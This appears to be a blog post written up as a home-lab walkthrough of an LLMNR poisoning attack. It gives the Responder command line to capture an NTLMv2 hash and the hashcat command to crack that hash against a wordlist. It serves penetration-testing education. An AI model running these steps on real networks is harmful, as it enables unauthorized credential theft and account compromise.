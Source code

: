 ```yaml
---
layout: post
title: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab"
twitter_image: /images/LLMNR-AttackLab/Diagram3.png
description: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab."
date: 2020-06-11
feature_image: /images/LLMNR-AttackLab/Diagram3.png
tags: [CyberSecurity]
hashtags: CyberSecurity
---
```


This blog post is about LLMNR attack. LLMNR attack is commonly used by Penetration testers during an engagement to get their hands on NLMv2 hash. The captured hash is either used to obtain the original password or used in the pass the hash attack.
<!--more-->

If you are looking for more information on LLMNR here’s an excellent [resource](https://attack.mitre.org/techniques/T1171/)

```
kali@kali:~/Responder$ git clone https://github.com/lgandx/Responder.git
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram1.png" caption="" %}

```
kali@kali:~$ sudo ifconfig
```

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram2.png" caption="" %}

```
kali@kali:~/Responder$ sudo ./Responder.py -I eth0 -rdwv
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram3.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram4.png" caption="" %}

Let’s try to access non existing shared drive called “catland”. Seeing this request responder reply backs to our machine which in turn result in our machine sending username and NTLMv2 password.

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram5.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram6.png" caption="" %}

Save the captured hash into a file called “kreese”

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram7.png" caption="" %}

On a fresh install of Kali, you need to unzip the rockyou wordlist. It is stored at /usr/share/wordlist directory.

```
kali@kali:~$ cd /usr/share/wordlists/
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt.gz wfuzz
kali@kali:/usr/share/wordlists$ gunzip rockyou.txt.gz
gzip: rockyou.txt: Permission denied
kali@kali:/usr/share/wordlists$ sudo gunzip rockyou.txt.gz
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt wfuzz
kali@kali:/usr/share/wordlists$ cd
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram8.png" caption="" %}

This command might not work if you are running Kali as a virtual machine. It’s always a good idea to run it on the guest operating system. Since i don’t want machine spending hours cracking the password which i already know for testing purpose i created a custom password list called “guessList” containing password used for test lab.

```
kali@kali:~$ hashcat -m 5600 kreese guessList — force
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram9.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram10.png" caption="" %}

{% include thanks.html %}

